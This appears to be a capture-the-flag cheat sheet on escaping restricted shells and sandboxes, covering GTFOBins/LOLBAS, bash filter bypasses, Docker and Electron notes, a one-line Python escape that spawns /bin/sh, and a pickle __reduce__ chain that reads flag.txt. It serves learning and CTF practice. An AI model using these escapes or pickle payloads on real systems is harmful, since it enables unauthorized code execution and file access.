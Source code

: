 # Escape

## Homebrew shells

[List for \*nix](https://gtfobins.github.io/) \([Tool](https://github.com/mzfr/go-gtfo)\)  
[List for windows](https://lolbas-project.github.io/)

If the challenge is a homemade shell with some artificial limitations, gtfobins and LOLBAS list myriad ways to escape. These aren't vulnerabilities, per se, but intended functionality of applications that are commonly installed.

## Bash

[Good ideas](https://wiki.bash-hackers.org)  
[List of parameter expansions](https://wiki.bash-hackers.org/syntax/pe)

### Forbidden strings

```bash
${NOSUCHVAR:-fla}${NOSUCHVAR:-g.txt}    # expands to flag.txt
```

### Stars aren't the only wildcard

```bash
fla?.txt
fl{a,A}g.txt
fl[a-z]g.txt
```

## Docker

* [deepce](https://github.com/stealthcopter/deepce/), a vulnerability scanner.  
* [grype](https://github.com/anchore/grype), a vulnerability scanner.  
* [WhaleScan](https://github.com/nccgroup/whalescan), scans windows containers.

## Electron

[Tell me more](https://github.com/doyensec/awesome-electronjs-hacking)

[view-source:](https://twitter.com/HusseiN98D/status/1325464364569276417) isn't necessarily blocked like `file://` is.

Perhaps the app even uses its own [custom URI scheme](https://twitter.com/zer0pwn/status/1325581291060826112)?

## Javascript

[Sandboxes](https://d0nut.medium.com/why-building-a-sandbox-in-pure-javascript-is-a-fools-errand-d425b77b2899)


## Python

[Tell me more](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)

Python has **so many** ways to introspect, reflect, reload, import, execute unintended code.

Here's a pretty simple one:

```python
import statistics
statistics.random._os._execvpe("/bin/sh", [], {})
```

### Pickle

[Source](https://gist.github.com/toblu302/364c3b474c4148295fdee9bd0207e758)

```python
#!/usr/bin/env python3

# From the error message we can see that only __main__, __buitin__ and copyreg are allowed
# __builtin__.eval and __builtin__.exec are banned as well
# We can just open and print the flag.txt by using __builin__.open, followed by readline and print
# This sequence of calls is constructed below by using multiple objects and the pickle __reduce__ interface

import base64
import builtins
import pickle

class FlagObjPickle:
    def __reduce__(self):
        return builtins.open, ("./flag.txt",)
    def readlines(self):
        pass

class ReadFlagPickle:
    def __reduce__(self):
        return FlagObjPickle().readlines, tuple()

class PrintFlagPickle:
    def __reduce__(self):
        return builtins.print, (ReadFlagPickle(),)

a = PrintFlagPickle()
pickled = pickle.dumps(a, 0)
```

Any callable in the target's namespace can be called with \(almost\) arbitrary parameters by pickling a class which implements `__reduce__`. Return the callable and a tuple of arguments. See above for a technique to chain as well.

